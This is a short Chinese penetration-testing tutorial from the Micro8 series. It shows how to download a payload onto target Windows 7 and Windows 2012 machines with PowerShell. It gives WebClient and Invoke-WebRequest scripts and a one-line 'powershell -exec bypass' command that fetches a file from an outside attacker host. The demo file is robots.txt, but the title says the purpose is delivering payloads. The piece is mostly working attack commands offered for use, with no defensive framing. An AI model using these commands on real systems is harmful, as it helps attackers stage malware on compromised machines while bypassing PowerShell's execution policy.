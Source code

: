 ```yaml
---
title: 46、powershell一句话下载payload
date: 2019-09-21 19:05:18
comments: true
categories: 
 - Micro8系列
---
```



自 Windows7 以后内置了 powershell，如Windows 7 中内置了 PowerShell2.0, Windows 8 中内置了 PowerShell3.0。

**靶机：windows 7** 
powershell $PSVersionTable  
![](../do/media/07fa8437a844c082c950d5643c994ef1.jpg)

### down.ps1:
基于System.Net.WebClient  
![](../do/media/c539c15cfe12c5ae4c5846e6b5a485b3.jpg)

![](../do/media/8772baf3212d72078525abfa44923db1.jpg)

### 附：
```powershell
$Urls = @()
$Urls += "http://192.168.1.115/robots.txt"
$OutPath = "E:\PDF\" 
ForEach ( $item in $Urls) {
$file = $OutPath + ($item).split('/')[-1]
(New-Object System.Net.WebClient).DownloadFile($item, $file) 
}
```

**靶机：windows 2012**
powershell $PSVersionTable  
![](../do/media/eaa0bd3c317ef0ae922676a353c59f15.jpg)

### down.ps1:
在 powershell 3.0以后，提供 wget 功能，既 Invoke-WebRequest  
![](../do/media/218c38bbb622f9c8a2634cc1c1a713c3.jpg)

`C:\inetpub>powershell C:\inetpub\down.ps1`  
注：需要绝对路径。

![](../do/media/e6557dac203ad4ac9cc208f135f56307.jpg)  

![](../do/media/69ef693d770cee3f0a5bd9dfdee62f0a.jpg)

### 附：
```powershell
$url = "http://192.168.1.115/robots.txt"
$output = "C:\inetpub\robots.txt"
$start_time = Get-Date
Invoke-WebRequest -Uri $url -OutFile $output
Write-Output "Time : $((Get-Date).Subtract($start_time).Seconds) second(s)"
```

**当然也可以一句话执行下载：**

```code
powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://192.168.1.115/robots.txt','E:\robots.txt')
```

![](../do/media/d40cd11aaad0632c0941441a31e3286f.jpg)

>   Micropoor
